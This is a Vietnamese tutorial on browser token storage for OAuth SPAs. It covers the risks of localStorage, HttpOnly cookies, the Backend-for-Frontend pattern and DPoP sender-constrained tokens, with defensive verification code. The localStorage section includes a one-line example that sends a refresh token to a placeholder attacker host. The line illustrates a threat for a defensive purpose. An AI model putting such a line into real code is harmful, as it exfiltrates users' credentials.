


## Bối cảnh & vấn đề

Một SPA React đăng nhập bằng OIDC và lưu access token lẫn refresh token trong `localStorage` để "giữ đăng nhập khi reload". Ba tháng sau, một thư viện chat widget bên thứ ba bị chiếm quyền phát hành (supply chain), bản mới chứa vài dòng đọc `localStorage` và gửi về máy chủ của attacker. Vài nghìn refresh token bị mang đi. Attacker không cần quay lại trang: họ refresh từ máy của họ, mỗi 15 phút một lần, trong 30 ngày, và gọi API như người dùng thật từ bất kỳ đâu.

Câu hỏi "lưu token ở đâu trong browser" thực chất là câu hỏi: **khi có XSS** (hoặc script bên thứ ba độc), attacker làm được gì? Không có phương án nào làm XSS vô hại: script chạy trong trang luôn gửi được request bằng phiên của user. Nhưng có khác biệt rất lớn giữa "attacker gọi API **trong lúc** nạn nhân mở trang" và "attacker **mang token đi** dùng 30 ngày từ máy khác".

Bài này so sánh các nơi lưu, đi qua mô hình BFF mà IETF xếp an toàn nhất cho browser app, và giới thiệu sender-constrained token (DPoP, mTLS): token bị lấy cắp nhưng không dùng được ở nơi khác.

## Khái niệm

### Mô hình đe doạ: exfiltration vs session riding

Có hai loại thiệt hại cần tách bạch. **Exfiltration** là attacker đọc được token và mang ra ngoài; thiệt hại kéo dài tới khi token hết hạn hoặc bị revoke, và attacker không cần nạn nhân online. **Session riding** (hay "on-page abuse") là script độc chạy trong trang và gửi request bằng phiên hiện có; thiệt hại giới hạn trong thời gian trang mở, và mọi request vẫn đi từ browser nạn nhân (IP, fingerprint của nạn nhân).

Mọi phương án lưu trữ đều thua session riding: nếu JS gọi được API thì script độc cũng gọi được. Các phương án khác nhau ở khả năng chống exfiltration. Vì vậy "chống XSS" (CSP, sanitize, kiểm soát script bên thứ ba) vẫn là gốc; nơi lưu token chỉ quyết định XSS tệ đến mức nào.

### localStorage và sessionStorage

**Web Storage** đọc được bằng mọi JS cùng origin, kể cả script bên thứ ba bạn nhúng. Token trong đó bị exfiltrate bằng một dòng `fetch("https://evil/?t=" + localStorage.refresh_token)`. Không có cờ nào như `HttpOnly` cho storage. `sessionStorage` chỉ khác ở vòng đời (theo tab), không khác ở khả năng bị đọc. Với refresh token, đây là nơi tệ nhất.

### Token trong memory

Giữ access token trong **biến JS** (closure, không gắn vào `window`): XSS vẫn có thể móc vào code (monkey-patch `fetch`) để dùng hoặc đọc token trong phiên, nhưng khó hơn đọc storage; token mất khi reload. Để không bắt user đăng nhập lại mỗi lần reload, cần lấy access token mới từ đâu đó: refresh token (lại phải lưu ở đâu?), silent authentication bằng iframe `prompt=none` (bị phá bởi việc chặn third-party cookie), hoặc một cookie HttpOnly với backend. Memory + refresh token rotation được IETF chấp nhận cho browser-only app nhưng xếp dưới BFF.

### HttpOnly cookie

**Cookie `HttpOnly`** không đọc được bằng JS, nên chống exfiltration trực tiếp. Đổi lại, cookie được browser **tự gửi**, nên cần chống **CSRF** (`SameSite=Lax/Strict`, kiểm `Origin`, CSRF token cho request thay đổi dữ liệu), và API phải **cùng site** (hoặc cấu hình CORS với credentials cẩn thận). Đặt access token JWT vào HttpOnly cookie gửi thẳng tới API là phương án trung gian phổ biến; BFF đi thêm một bước: cookie chỉ chứa session id, token nằm ở server.

### Backend-for-Frontend (BFF)

**BFF** là một thành phần server-side **cùng site với SPA** (route handler của Next.js, một service Express nhỏ, một gateway) đóng vai **OAuth client confidential**. BFF chạy Authorization Code + PKCE, nhận access token và refresh token, **giữ chúng ở server** (session store), và cấp cho browser chỉ một **session cookie** `HttpOnly; Secure; SameSite`. Mọi lời gọi API từ SPA đi qua BFF; BFF gắn access token vào request tới API phía sau và tự refresh khi cần.

Lợi ích: token **không bao giờ** vào JS, nên XSS không exfiltrate được token; refresh tập trung một chỗ (không race giữa nhiều tab, [bài 3](/tracks/auth-identity/learn/token-lifecycle-revocation)); BFF là confidential client, dùng được secret hoặc `private_key_jwt`; có thể lọc/giới hạn API mà browser gọi được. Cái giá: thêm một hop (latency vài ms), BFF phải scale và chịu tải proxy (kể cả upload/stream), cần session store, cần **chống CSRF** vì giờ đã dùng cookie, và XSS vẫn gọi API **qua** BFF trong phiên (session riding). IETF draft "OAuth 2.0 for Browser-Based Applications" xếp BFF là kiến trúc an toàn nhất trong ba (verify trạng thái draft).

Biến thể **token-mediating backend**: backend chạy OAuth và giữ refresh token, nhưng trả **access token** cho JS để gọi API trực tiếp. Ít tải hơn BFF (không proxy), nhưng access token lại vào JS.

### Sender-constrained token

**Bearer token** nghĩa đen là "ai cầm cũng dùng được". **Sender-constrained token** gắn token với một key mà client giữ; khi dùng token, client phải chứng minh đang giữ private key. Token bị đánh cắp (log, XSS đọc được, proxy) mà không có key thì vô dụng.

**DPoP** (RFC 9449) làm điều này ở tầng ứng dụng. Client tạo một cặp key (trong browser: WebCrypto với `extractable: false`, nên JS cũng không đọc được private key, chỉ dùng được). Mỗi request, client gửi header `DPoP` chứa một **proof**: JWT ngắn có header `typ: dpop+jwt` và public key (`jwk`), payload gồm `htm` (HTTP method), `htu` (URL, không query), `iat`, `jti` (id duy nhất), và `ath` (hash SHA-256 của access token khi gọi resource server). AS phát access token có `cnf.jkt` = thumbprint (RFC 7638) của public key. Resource server kiểm: chữ ký proof bằng key nhúng, `htm`/`htu` khớp request, `iat` mới, `jti` chưa thấy (chống replay), `ath` khớp token, và thumbprint của key trong proof bằng `cnf.jkt` trong token. Header `Authorization` đổi scheme thành `DPoP`.

**mTLS-bound token** (RFC 8705) gắn token với **certificate client** dùng trong kết nối TLS: token có `cnf.x5t#S256` = thumbprint của cert, resource server so với cert của kết nối hiện tại. Mạnh và rẻ khi đã có PKI, hợp server-to-server; không thực tế cho browser.

Giới hạn quan trọng: sender-constraint **không** chống session riding. Script độc trong trang dùng được key non-extractable để ký proof hợp lệ. Nó chống việc **mang token đi**: attacker phải hành động từ chính browser nạn nhân, lúc nạn nhân đang mở trang. OAuth 2.1 (draft) yêu cầu refresh token của public client phải sender-constrained hoặc rotate.

**Interview angle:** "server cần lưu gì để chống replay DPoP proof, trong bao lâu?" → tập `jti` đã thấy, trong khoảng thời gian proof còn được chấp nhận (cửa sổ `iat`, vd 60 giây cộng leeway), theo từng resource server; hoặc dùng `DPoP-Nonce` do server cấp để thu hẹp cửa sổ.

## Cơ chế hoạt động

### BFF với Authorization Code + PKCE



Browser chỉ thấy redirect và cookie phiên của BFF. Code đổi token xảy ra giữa BFF và AS. Mọi API call đi qua BFF; BFF kiểm CSRF (vì giờ phiên là cookie), lấy token từ session store, refresh khi gần hết hạn, rồi proxy. Token không bao giờ xuất hiện trong JS, trong URL, hay trong storage của browser.

### DPoP trên một request



AS gắn token với thumbprint ngay lúc phát (refresh token cũng có thể được gắn tương tự). Resource server làm hai lần verify: access token như thường lệ, rồi proof. Bất kỳ điều kiện nào sai là 401 với `WWW-Authenticate: DPoP error="invalid_dpop_proof"`.

## Ví dụ thực tế

### DPoP chạy thật với jose 6.2.12

Client tạo key ES256; AS (mô phỏng) phát access token có `cnf.jkt`; resource server kiểm đủ các điều kiện của RFC 9449 §7:

```ts
const proof = (htm: string, htu: string, at?: string) =>
  new jose.SignJWT({ htm, htu, jti: randomUUID(), ...(at ? { ath: sha256b64u(at) } : {}) })
    .setProtectedHeader({ typ: "dpop+jwt", alg: "ES256", jwk }).setIssuedAt().sign(privateKey);

const at = await new jose.SignJWT({ sub: "alice", scope: "orders:read", cnf: { jkt } })
  .setProtectedHeader({ alg: "ES256", typ: "at+jwt" }).setIssuer("https://as").setAudience("orders-api")
  .setExpirationTime("5m").sign(as.privateKey);

async function rs(method: string, url: string, headers: Record<string, string>) {
  const [scheme, tok] = (headers.authorization ?? "").split(" ");
  if (scheme !== "DPoP") return "401 use DPoP scheme";
  const { payload: a } = await jose.jwtVerify(tok, as.publicKey, { issuer: "https://as", audience: "orders-api", typ: "at+jwt", algorithms: ["ES256"] });
  const { payload: p, protectedHeader: h } = await jose.jwtVerify(headers.dpop, jose.EmbeddedJWK,
    { typ: "dpop+jwt", algorithms: ["ES256"], maxTokenAge: "60s" });
  if (p.htm !== method || p.htu !== url) return "401 htm/htu mismatch";
  if (p.ath !== sha256b64u(tok)) return "401 ath mismatch";
  if ((await jose.calculateJwkThumbprint(h.jwk!)) !== a.cnf?.jkt) return "401 proof key != cnf.jkt";
  if (seen.has(p.jti)) return "401 proof replay (jti seen)";
  seen.add(p.jti);
  return `200 hello ${a.sub}`;
}
```

```text
legit client            200 hello alice
replay same proof       401 proof replay (jti seen)
proof for another URL   401 htm/htu mismatch (GET https://api.shop.test/orders)
stolen AT as Bearer     401 use DPoP scheme
stolen AT + thief key   401 proof key != cnf.jkt
cnf.jkt = n7T9ONl3lGl_xoFYd0GM6HKK39l3IieJZQJIlMNcvMY
```

Năm dòng là năm lớp bảo vệ: proof dùng lại bị chặn bởi `jti`; proof ký cho `GET` không dùng được cho `DELETE`; token bị lấy cắp gửi dạng Bearer bị từ chối vì RS bắt buộc scheme DPoP; attacker tự tạo key và proof hợp lệ về mặt chữ ký nhưng thumbprint không khớp `cnf.jkt`. Đây chính là kịch bản "refresh token bị lấy cắp từ localStorage" ở đầu bài nếu token đã được DPoP-bind: token trong tay attacker vô dụng. `EmbeddedJWK` ở đây là có chủ đích: proof DPoP luôn mang public key của nó, và sự an toàn đến từ việc so thumbprint với `cnf.jkt` do AS ký. Ở token thường, chấp nhận `jwk` nhúng là lỗ hổng ([bài 2](/tracks/auth-identity/learn/jwt-signing-verification)).

Keycloak 26.4.7 quảng bá `dpop_signing_alg_values_supported` trong discovery (`PS384, RS384, EdDSA, ES384, ES256, RS256, ES512, PS256, PS512, RS512`), nên DPoP dùng được với IdP này (verify cấu hình bật theo client).

### BFF trong Next.js (minh hoạ)

```ts
// app/bff/api/[...path]/route.ts — proxy with server-held tokens
export async function POST(req: Request, { params }: { params: Promise<{ path: string[] }> }) {
  const sid = (await cookies()).get("__Host-bff")?.value;
  if (!sid) return new Response(null, { status: 401 });
  if (req.headers.get("origin") !== process.env.APP_ORIGIN) return new Response(null, { status: 403 });   // CSRF
  const session = await sessions.get(sid);                           // { accessToken, refreshToken, exp }
  if (!session) return new Response(null, { status: 401 });
  const at = session.exp - Date.now() < 60_000 ? await refreshOnce(sid, session) : session.accessToken; // single-flight per sid
  const { path } = await params;
  if (!ALLOWED_PREFIXES.some((p) => path.join("/").startsWith(p))) return new Response(null, { status: 404 });
  return fetch(`${process.env.API_URL}/${path.join("/")}`, {
    method: "POST", body: req.body, headers: { authorization: `Bearer ${at}`, "content-type": req.headers.get("content-type") ?? "" },
    duplex: "half",
  } as RequestInit);
}
```

Token nằm trong session store phía server (Redis), cookie `__Host-bff` chỉ chứa session id. `refreshOnce` là singleflight theo `sid` để nhiều request song song không cùng refresh (tránh false positive reuse detection). Kiểm `Origin` là lớp CSRF tối thiểu; thêm `SameSite=Lax` và CSRF token cho request thay đổi dữ liệu. API phía sau vẫn verify access token như bình thường: BFF không thay thế authorization ở API. Với Next.js 16, xem `node_modules/next/dist/docs/` về route handler và `cookies()` trước khi áp dụng (verify).

## Trade-offs & lựa chọn thay thế

| Phương án | XSS exfiltrate token? | XSS gọi API trong phiên? | CSRF cần? | Reload giữ phiên? | Độ phức tạp |
| --- | --- | --- | --- | --- | --- |
| localStorage | Có (cả RT) | Có | Không | Có | Thấp |
| Memory + RT rotation | Khó (AT); RT tuỳ chỗ lưu | Có | Không | Cần cơ chế khác | Trung bình |
| Memory + DPoP (key non-extractable) | Token lấy được nhưng vô dụng nơi khác | Có | Không | Cần cơ chế khác | Trung bình–cao |
| JWT trong HttpOnly cookie tới API | Không | Có | Có | Có | Trung bình |
| BFF (session cookie, token ở server) | Không | Có (qua BFF) | Có | Có | Cao hơn (thêm hop, store) |

Chọn thế nào: có thể chạy một server cùng site (Next.js, Remix, hoặc một service nhỏ) → **BFF**; đó là mặc định khuyến nghị cho app có dữ liệu nhạy cảm. Không thể có backend (SPA tĩnh gọi API của bên khác) → Auth Code + PKCE trong browser, access token trong memory, refresh token rotation (hoặc DPoP nếu AS hỗ trợ), TTL ngắn, CSP chặt. Không bao giờ để refresh token trong `localStorage`. Server-to-server cần chống token bị lộ → mTLS-bound token hoặc DPoP.

## Edge cases & failure modes

- **Chặn third-party cookie** làm silent refresh qua iframe (`prompt=none`) thất bại trên Safari/Firefox và ngày càng nhiều browser: user bị đăng xuất mỗi lần reload. BFF cùng site không bị ảnh hưởng.
- **BFF thành nút cổ chai**: upload file lớn, stream SSE đi qua BFF làm tốn memory/kết nối. Cho phép một số đường đi thẳng tới API bằng token ngắn có scope hẹp, hoặc dùng presigned URL.
- **CSRF trên BFF**: quên kiểm `Origin`/CSRF token vì "đã có SameSite": `SameSite=Lax` vẫn cho GET top-level cross-site; endpoint thay đổi dữ liệu bằng GET là lỗ hổng.
- **DPoP replay store** không chia sẻ giữa các instance resource server: proof replay sang instance khác trong cửa sổ `iat`. Dùng Redis chung hoặc `DPoP-Nonce` từ server.
- **DPoP và clock skew**: `iat` của proof theo đồng hồ client (máy người dùng có thể lệch phút); dùng `DPoP-Nonce` hoặc cửa sổ rộng hơn cho `iat` kèm replay store.
- **Key DPoP mất khi xoá dữ liệu trang**: token gắn với key cũ không dùng được nữa, cần đăng nhập lại; bình thường, nhưng UX phải xử lý được.
- **HttpOnly không chặn XSS đọc response**: script độc vẫn gọi `/bff/api/me` và đọc dữ liệu trả về; HttpOnly chỉ bảo vệ chính cookie.

## Pitfalls

- ❌ Refresh token trong `localStorage` → ✅ BFF giữ ở server, hoặc rotation + DPoP nếu buộc ở browser.
- ❌ Tin "HttpOnly cookie làm XSS vô hại" → ✅ HttpOnly chống exfiltration, không chống session riding; CSP và kiểm soát script vẫn là gốc.
- ❌ Chuyển sang cookie mà quên CSRF → ✅ `SameSite`, kiểm `Origin`, CSRF token cho request thay đổi dữ liệu.
- ❌ BFF proxy mọi path tới mọi API → ✅ allowlist route, BFF không thay thế authorization ở API.
- ❌ BFF refresh song song cho mỗi request → ✅ singleflight refresh theo session.
- ❌ DPoP nhưng không lưu `jti` hoặc không kiểm `ath`/`htu` → ✅ kiểm đủ các điều kiện của RFC 9449, replay store chung.
- ❌ Key DPoP extractable lưu trong storage → ✅ WebCrypto `extractable: false`, lưu CryptoKey trong IndexedDB.

## Tóm tắt

- Phân biệt exfiltration (mang token đi) và session riding (dùng phiên trong trang); không nơi lưu nào chống được session riding.
- `localStorage` là nơi tệ nhất cho token, nhất là refresh token.
- HttpOnly cookie chống exfiltration nhưng bắt buộc phải chống CSRF.
- BFF: confidential client cùng site, token ở server, browser chỉ có session cookie; an toàn nhất theo IETF, đổi lại thêm hop, store và CSRF.
- DPoP gắn token với key non-extractable: proof có `htm`, `htu`, `iat`, `jti`, `ath`; RS kiểm thumbprint bằng `cnf.jkt`; token bị đánh cắp vô dụng ở nơi khác.
- mTLS-bound token (`cnf.x5t#S256`) cho server-to-server.
- OAuth 2.1 (draft): refresh token của public client phải sender-constrained hoặc rotate.
